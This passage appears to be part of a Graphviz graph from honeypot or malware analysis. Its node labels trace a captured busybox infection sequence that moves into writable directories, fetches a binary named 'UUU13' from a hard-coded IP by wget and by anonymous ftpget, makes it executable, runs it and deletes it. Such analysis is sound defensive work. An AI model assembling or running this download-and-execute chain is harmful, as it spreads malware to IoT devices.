848 [label="rm -rf UUU13 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.145.131.173/UUU13 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x UUU13 "];
862 -> 864 [label=";,"];
864 [label="./UUU13 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf UUU13 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU13 UUU13 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x UUU13 ./UUU13 "];
880 -> 881 [label=";,"];
}
